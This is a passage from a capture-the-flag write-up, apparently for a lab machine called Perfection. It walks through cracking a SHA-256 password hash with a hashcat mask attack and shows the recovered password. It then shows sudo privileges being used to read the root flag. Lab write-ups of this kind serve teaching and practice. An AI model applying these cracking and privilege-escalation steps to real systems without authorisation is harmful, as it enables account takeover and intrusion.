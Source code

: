 We have hashes and a possible format of the password.

### 4.2 Carcking Hashes With Hashcat

Hashcat allow us to use built-in charsets so we dont have to generate a wordlist. The next command should do the work:

```
$ hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d"
...
ime.Started.....: Thu Mar 28 23:21:49 2024 (3 mins, 0 secs)
Time.Estimated...: Thu Mar 28 23:24:49 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1831.5 kH/s (0.53ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324558848/1000000000 (32.46%)
Rejected.........: 0/324558848 (0.00%)
Restore.Point....: 324556800/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_126824210 -> susan_nasus_803824210
Hardware.Mon.#1..: Util: 60%

Started: Thu Mar 28 23:21:48 2024
Stopped: Thu Mar 28 23:24:51 2024

...

$ hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d" --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

The password for susan user is `susan_nasus_413759210`.&#x20;

We're going to list privileges for user susan:

```
susan@perfection:~/Migration$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Susan has privileges to execute ALL as root so the last thing to do is to read root.txt flag:

```
susan@perfection:~/Migration$ sudo cat /root/root.txt
SECRETSECRETSECRETSECRET
```
